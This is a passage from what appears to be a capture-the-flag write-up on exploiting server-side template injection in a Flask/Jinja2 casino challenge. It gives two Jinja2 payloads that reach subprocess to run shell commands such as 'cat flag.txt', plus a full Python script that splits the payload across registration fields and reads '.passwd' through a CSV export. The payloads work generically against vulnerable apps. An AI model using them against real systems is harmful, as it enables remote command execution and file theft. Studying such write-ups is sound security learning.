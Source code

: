 ```py
{{''.__class__.__base__.__subclasses__()[INDEX]('cat flag.txt',shell=True,stdout=-1).communicate()[0]}}
```

This requires trial/error to find the correct index of `subprocess.Popen`, but since
we know the python version used by the app, we can download it locally and test until figured.

### 2nd Way: Using Flask's `request` Object (Cleaner)

```py
{{ request.application.__globals__.__builtins__.__import__('subprocess').getoutput('cat flag.txt') }}
```

This is cleaner and more "determinstic" if you will. The request object has access to the
application method, which in turn has the builtin functions among its global variables (as with most python objects, check [meta programming in python](https://developer.ibm.com/tutorials/ba-metaprogramming-python/)).

> I wrote another writeup [here](https://hxuu.github.io/blog/ctf/n00bz24/file-sharing-portal/) where I discuss this method further
> including what `__globals__`, `__builtins__` and more mean. Refer to it for further details

---

Pick whichever way you like. I'll use the second one as it doesn't require knowledge
of indices that are otherwise easy to find using the same python version as the app.

### Full exploit script

```python
import requests

url = 'https://nopsctf-casino.chals.io'
session = requests.Session() # needed to get the session cookie

ssti_payload = "request.application.__globals__.__builtins__.__import__('subprocess').getoutput('cat .passwd')"

register_data = {
    'username': 'hxuu{{', # you might need to change this (used...)
    'email': ssti_payload + '}}',
    'password': 'hxuu{{'
}
session.post(url + '/register', data=register_data)

login_data = {
    'username': register_data['username'],
    'password': register_data['password']
}
session.post(url + '/login', data=login_data)

## Now we'll export the .csv file with the flag in it
resp = session.get(url + '/export')
print(resp.text)
```
